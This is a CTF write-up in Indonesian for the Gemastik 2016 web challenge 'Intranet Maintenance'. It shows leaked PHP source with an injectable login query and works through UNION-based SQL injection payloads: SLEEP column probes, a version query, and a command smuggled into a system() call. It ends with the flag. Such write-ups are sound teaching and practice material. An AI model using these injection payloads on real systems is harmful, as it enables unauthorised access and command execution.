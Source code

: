 ```yaml
---
layout: post
title: "Gemastik CTF 2016 : Intranet Maintenance - 125"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: ctf
tags: [gemastik,Web Exploitation]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Intranet Maintenance](/images/intranet-maintenance.png)


### Solusi :

Sesuai dengan clue yang diberikan, kami membuka index.php~ dan menemukan source code file index.php.
setelah kami membaca  source code tersebut kami melihat kemungkinan untuk melakukan sql injection :

`$query = "SELECT * FROM users WHERE email='$email' AND password='$password';";`

kemudian kami mencoba union dengan sleep pada kolom email untuk memastikan query berjalan sesuai keinginan kita.

`' UNION SELECT SLEEP(10) # < NORMAL`

`' UNION SELECT SLEEP(10),1 #   < NORMAL`

`' UNION SELECT SLEEP(10),1,1 # < ERROR`

Ternyata ditemukan 3 kolom union lalu kami mengecek version dari mysqlnya dengan

`' UNION SELECT 1,@@VERSION,1 #`

![Intranet maintenance mysql](/images/intranet-maintenance-mysql.png)

Kemudian kita melihat bahwa input kita masuk ke dalam system() Dan memungkinkan kita untuk melakukan command injection

![Intranet maintenance system](/images/intranet-maintenance-system.png)

Kami kemudian mencoba untuk melakukan injeksi command dengan menggunakan separator `;payload;#`
Kemudian kami sisipkan command pada kolom email

`' UNION SELECT 1,';find;#',1 #`

![Intranet maintenance find](/images/intranet-maintenance-find.png)

Dan ditemukan flag pada `db.php.save`

![Intranet maintenance flag](/images/intranet-maintenance-flag.png)

`GEMASTIK{just_another_admin_who_dont_care_about_s3cur1ty}`


